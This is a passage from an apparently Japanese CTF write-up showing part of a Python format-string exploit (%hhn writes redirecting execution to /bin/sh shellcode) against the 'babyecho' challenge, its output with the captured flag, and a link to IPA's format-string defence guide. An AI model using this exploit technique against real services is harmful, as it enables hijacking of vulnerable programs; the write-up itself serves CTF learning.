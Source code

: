 ```python
    addr_buf + 16 >> 8  & 0xff,
    addr_buf + 16 >> 16 & 0xff,
    addr_buf + 16 >> 24 & 0xff ]

    payload += "%%%dc%%%d$hhn" % ((addr_shell[0] - len(payload)) & 0xff, index) \
    + "%%%dc%%%d$hhn" % ((addr_shell[1] - addr_shell[0]) & 0xff, index + 1) \
    + "%%%dc%%%d$hhn" % ((addr_shell[2] - addr_shell[1]) & 0xff, index + 2) \
    + "%%%dc%%%d$hhn" % ((addr_shell[3] - addr_shell[2]) & 0xff, index + 3) \
    + "\n"

    s.send(payload) # exploit

    s.send("cat</home/babyecho/flag\n") # capture the flag
    print(s.recv(8192))
    print(s.recv(8192))

if __name__=='__main__':
    exploit()

```


実行結果は以下のとおりです。

```
Reading 13 bytes

[DEBUG] Buffer address = 0xffbf62bc

Reading 1023 bytes

彙ｿ… 拊ｿ… 枌ｿ… 歟ｿ… j
X儚h//shh/bin峨1ﾉﾍ^\
…

                                                               …
The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
```

FLAG:`1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%`

今回の攻撃手法もIPAによって丁寧に解説及び対策が掲載されているので、詳しく知りたい場合は参考に見てみるのも良いでしょう。

[IPA ISEC　セキュア・プログラミング講座：C/C++言語編　第10章 著名な脆弱性対策：フォーマット文字列攻撃対策](http://www.ipa.go.jp/security/awareness/vendor/programmingv2/contents/c906.html)


## その他


Coding Challengeという、問題サーバーからレジスタの初期状態と機械語の命令コードが送られてきて、その命令を実行したあとのレジスタの値を送り返すという問題も解いたのですが、違う問題でglibcのアップデートをした際にマシンがクラッシュし、スナップショットの状態に戻した際に消えてしまいました。
なのでコードがありません。

### 問題文
    meow
